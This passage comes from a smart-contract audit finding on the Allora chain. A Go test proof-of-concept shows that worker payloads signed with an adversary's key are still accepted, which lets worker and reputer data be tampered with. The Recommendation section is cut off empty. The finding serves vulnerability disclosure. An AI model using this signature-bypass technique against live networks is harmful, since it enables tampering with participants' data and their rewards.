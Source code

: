 https://github.com/sherlock-audit/2024-06-allora/blob/main/allora-chain/x/emissions/types/reputer_value_bundle.go#L60-L71


The proof of work below demonstrates that the signature and the pubkey do not belong to the inferer:

```go
// based on msg_server_worker_payload_test.go
func (s *MsgServerTestSuite) TestMsgInsertBulkWorkerPayloadPoC() {
	ctx, msgServer := s.ctx, s.msgServer
	require := s.Require()

	workerPrivateKey := secp256k1.GenPrivKey()
	adversary := secp256k1.GenPrivKey()
  require.NotEqual(adversary, workerPrivateKey)

	workerMsg, topicId := s.setUpMsgInsertBulkWorkerPayload(workerPrivateKey)

	workerMsg = s.signMsgInsertBulkWorkerPayload(workerMsg, adversary)

	blockHeight := workerMsg.WorkerDataBundles[0].InferenceForecastsBundle.Forecast.BlockHeight

	forecastsCount0 := s.getCountForecastsAtBlock(topicId, blockHeight)

	_, err := msgServer.InsertBulkWorkerPayload(ctx, &workerMsg)
	require.NoError(err, "InsertBulkWorkerPayload should not return an error")

	forecastsCount1 := s.getCountForecastsAtBlock(topicId, blockHeight)

	require.Equal(forecastsCount0, 0)
	require.Equal(forecastsCount1, 1)
}
```

## Impact

The worker and reputer's data may be tampered and as the result, they may be punished or rewarded incorrectly.

## Code Snippet

https://github.com/sherlock-audit/2024-06-allora/blob/main/allora-chain/x/emissions/types/worker_data_bundle.go#L44-L56
https://github.com/sherlock-audit/2024-06-allora/blob/main/allora-chain/x/emissions/types/reputer_value_bundle.go#L60-L71

## Tool used

Manual Review

## Recommendation

